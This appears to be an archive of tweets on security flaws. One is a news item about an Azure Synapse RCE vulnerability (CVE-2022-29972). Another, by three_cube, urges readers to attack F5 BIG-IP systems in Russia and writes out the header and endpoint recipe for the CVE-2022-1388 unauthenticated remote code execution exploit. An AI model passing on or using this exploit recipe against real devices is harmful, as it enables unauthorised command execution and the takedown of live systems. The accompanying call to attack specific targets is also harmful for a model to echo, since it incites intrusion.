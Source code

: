 </table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1523966554538344448 _at 2022-05-10, 10:01:55_**
<blockquote>
A new RCE flaw (CVE-2022-29972) in #Microsoft Azure Synapse &amp; Data Factory could have allowed attackers to gain control of other Synapse workspaces and leak sensitive data, including service keys, API tokens, as well as passwords for other services

https://t.co/srY0ycAuby

#tech
</blockquote>

* https://thehackernews.com/2022/05/microsoft-mitigates-rce-vulnerability.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# three_cube
**https://twitter.com/three_cube/status/1523857554874449927 _at 2022-05-10, 02:48:47_**
<blockquote>
13 of these F5 Big IP systems in Russia. 

Use this exploit to take them down!

#CVE-2022-1388 F5's BIG-IP Unauth RCE

Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything

https://x.x.x.x:443/mgmt/tm/util/bash https://t.co/HPloQX1A2Y
</blockquote>

<table><tr>